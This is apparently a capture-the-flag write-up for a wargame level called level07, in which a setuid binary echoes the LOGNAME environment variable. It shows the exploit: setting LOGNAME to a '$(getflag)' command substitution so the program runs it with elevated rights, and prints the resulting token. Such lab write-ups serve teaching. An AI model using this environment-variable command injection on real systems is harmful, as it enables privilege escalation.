 ## writeup level07

When we log in as user level07, we can see a binary `level07` in our home:
```shell
$ ls -l level07
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```
It has the suid bit again. We won't explain this again i guess you got what it means.
When we execute it, it prints the name of the user. \
When analyzing the binary, we see it uses `getenv` to get the environment variable `LOGNAME` and print its content with `echo`. \
We can put a subshell as `LOGNAME` to execute any command we want:
```shell
$ LOGNAME="\$(getflag)" ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```